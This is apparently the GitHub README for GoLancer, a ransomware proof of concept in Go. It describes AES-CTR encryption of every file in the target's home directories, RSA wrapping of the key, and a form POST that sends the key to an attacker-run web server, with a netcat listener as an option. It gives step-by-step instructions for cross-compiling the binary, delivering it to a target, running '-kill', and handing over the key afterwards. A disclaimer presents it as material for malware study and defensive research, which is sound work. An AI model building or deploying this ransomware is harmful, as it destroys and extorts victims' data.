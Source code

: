 # GoLancer

Ransomware PoC implementation built in Golang.<nl>
<nl>
- Encrypts files using 256-bit AES-CTR with random initialization vectors per file.<nl>
- Encryption (and decryption) runs in parallel if enough logical cores are availible. List of files are split into chunks and each chunk is encrypted (or decrypted) in it's own goRoutine.<nl>
- AES key is encrypted with 2048 OAEP RSA public key and sent to a webserver via form POST request, or stored on the 'target' machine if the connection fails or no webserver is defined.

  
  

<h2>Usage</h2>
<h3>Flags</h3>

`-g` : Generates RSA keypair and saves them to the disk.

`-kill` : Starts the encryption process, crawls user directories and encrypts (and deletes) all files

`-d` : Starts the decryption process. The private key must be in the same directory as the GoLancer binary. Will decrypt files, then remove the encrypted files.

`-a` : Decrypts AES key using RSA public key.

<h3>Operation</h3>

If the 'attacker' has a web-server setup that accepts form posts requests GoLancer will send out a form POST request (``application/x-www-form-urlencoded``) to a defined web-address that contains the fields `hostname` and `key` . Any test web-server will work, you could even use netcat (`nc -lvnp 80`) . The 'attacker' can also use something like webhook.site to accept these requests. (Although security controls may block this site)
Otherwise, the encrypted AES key will be stored on the target machine.

On the 'attacker' machine:

 1. Build binary for attacker's OS and arch
	 1. `go build github.com/WesEfird/GoLancer` 
 2. Generate RSA key-pair (This will create files `private.pem` and `public.pem`)
	 1. `./GoLancer -g` 
 3.  Save the private key somewhere safe
 4. Edit `addr` var in `main.go` to the domain or IP address of your webserver. (Or use something like webhook.site to accept POST requests)
 5. Build binary for target's OS and arch
	 1. `env GOOS=target-OS GOARCH=target-architecture go build github.com/WesEfird/GoLancer` 
	 2. https://www.digitalocean.com/community/tutorials/how-to-build-go-executables-for-multiple-platforms-on-ubuntu-16-04
 6. Deliver binary and `public.pem` to target machine
 7. Wait for binary to be executed on target machine (see below)
	 1. Once the encryption has completed, a POST request will be made to the web-address defined in step 4
	 2. If the connection fails or no web-server is defined, then the key will be stored on the target machine as `golancer-e.key`
 8. Grab AES key from POST request made to your web-server, or from the target machine if no webserver was defined (or connection failed)
	 1. Copy key to file named `golancer-e.key` (Make sure file is written with ANSI encoding)
 9. Decrypt AES key
	 1. `./GoLancer -a ` (Make sure the file is in the same directory as GoLancer binary)
	 2. This will create the file `golancer.key` which will contain the decrypted AES key
 10. Now the 'attacker' has the key that will allow the 'target' to decrypt their file system
	 1. Deliver decrypted AES key to the 'target'
 
<nl>

On the 'target' machine:

 1. Once the GoLancer binary and generated RSA public key has been delivered to the 'target', start the encryption process.
	 1. `./GoLancer -kill`
	 2. This will generate a list of all files in the 'target' machine's home directories.
	 3. The AES key will be encrypted using the RSA public key, and will be sent to the defined web-server via POST request.
 2. The encryption process will start, and all files (except for GoLancer files) in the 'target' machine's home directories will be encrypted using 256-bit AES-CTR
 3. Have the decrypted AES key delivered to the 'target' machine
	 1. Move the AES key file `golancer.key` to the directory where the GoLancer binary is located
 4. Decrypt the file system
	 1.  `./GoLancer -d`
	 2. The filesystem will be decrypted, and all encrypted artifacts will be removed


<h3>Build</h3>

 1. `git clone https://github.com/WesEfird/GoLancer.git`
 2. `cd GoLancer`
 3. `go build github.com/WesEfird/GoLancer`



<h2>TODO</h2>

 - Clean AES key from memory after encryption has completed
 - Stop being lazy about error handling
 - Generate ransom note (Or even a cool webpage??)
 - Remove all traces of GoLancer once decryption has taken place
 - Implement data exfiltration

 
<h2>Disclaimer</h2>

The purpose of GoLancer is to allow the study of malware and enable security researchers to have access to a live malware implementation; this implementation is to be used as a tool for educational purposes, and for the development of defensive rules, tactics, and techniques. This program is intended to only be used in environments that the user owns and controls, or in environments where the user has explicit permission to run offensive security tools. The user must adhere to all laws in their jurisdiction and must conduct themselves ethically when using this tool.

**This tool may cause irreversible changes to your system(s), be extremely careful when running this tool.**

